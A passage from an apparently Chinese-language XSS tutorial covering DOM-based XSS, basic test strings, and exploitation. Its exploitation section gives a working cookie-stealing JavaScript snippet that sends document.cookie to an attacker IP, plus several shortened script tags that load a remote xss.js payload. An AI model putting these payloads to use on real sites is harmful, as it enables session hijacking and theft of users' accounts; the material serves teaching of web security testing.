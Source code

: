 DOM型的攻击方式是：有一个接口，可以修改 HTML页面代码，比如上面提到的 a 标签，我们输入的 paylaod会嵌入到网页的这个a href标签中，只要用户再次点击这个 a 标签链接，就会触发XSS漏洞。  
## 0x07 XSS 测试语句
在测试网站是否存在 xss 漏洞时，应该输入一些标签如<、>输入后查看网页源代码是否过滤标签，如果没过滤，很大可能存在 xss 漏洞。  
常用的测试语句：  
```txt
<h5>1</h5>
<span>1</span>
<script>console.log(1);</script>
闭合
"><span>x</span><"
'>"><span>x</span><'
单行注释
"><span>x</span>//
```

## 0x08 XSS 攻击语句
XSS 攻击语句，构造方式主要分为以下几种，我们把payload单独放在了 XSSpayload文件中，方便查找。  

## 0x09 XSS 漏洞利用
XSS 漏洞可以通过构造恶意的XSS语句实现很多功能，其中最常用的是，构造恶意代码获取对方浏览器cookie。  
JS代码如下：  
```javascript
var img=document.createElement("img");
img.src="http://192.168.0.127/log?"+escape(document.cookie);
document.body.appendChild(img);
```
第一行代码创建了一个新的图片元素（<img>标签），并将其赋值给变量img；  
第二行代码设置了图片src属性（图片来源URL），document.cookie 会获取当前网页的 cookie 信息，而 escape(document.cookie) 则对这些 cookie 信息进行编码，以便在 URL 中传输。
这行代码通过URL传递了cookie信息到 http://192.168.0.127/log 中，这意味着攻击者将获得该页面的cookie信息。  
第三行代码将图片元素img添加到网页body中。这会触发浏览器尝试加载该图片，最终执行 GET 请求，将cookie信息发送到攻击者指定的服务器。  

把以上内容保存为 xss.js 放在攻击者服务器上，把 src 内容对应修改为攻击者IP。  
然后在受害者网页中存在 XSS 漏洞的地方插入以下payload。
```html
<script src="http://192.168.0.127/xss.js"></script>
```
当网页加载该 payload 时，就会访问 http://192.168.0.127/xss.js 这个脚本，从而触发漏洞利用代码，把受害者的cookie发送给攻击者指定服务器。  

当发现存在 xss 漏洞时，如果只是弹出信息窗口，这样只能证明存在一个xss漏洞，如果想进一步深入的话，
就必须学会如何加载xss攻击payload。同时加载 payload 也要考虑到语句的长度，语句是越短越好，因为有
的插入语句的长度会被限制。  
常见的加载攻击语句有：
```html
<script src="http://192.168.0.121/xss.js"></script>
```
双引号可以去掉，变成：
```html
<script src=http://192.168.0.121/xss.js></script>
```
还可以变成：
```html
<script src=//192.168.0.121/xss.js></script>
```
最下面这种格式，不指定协议，如果网站是 http 会自动加载 http，如果网站是 https会自动变成 https。  
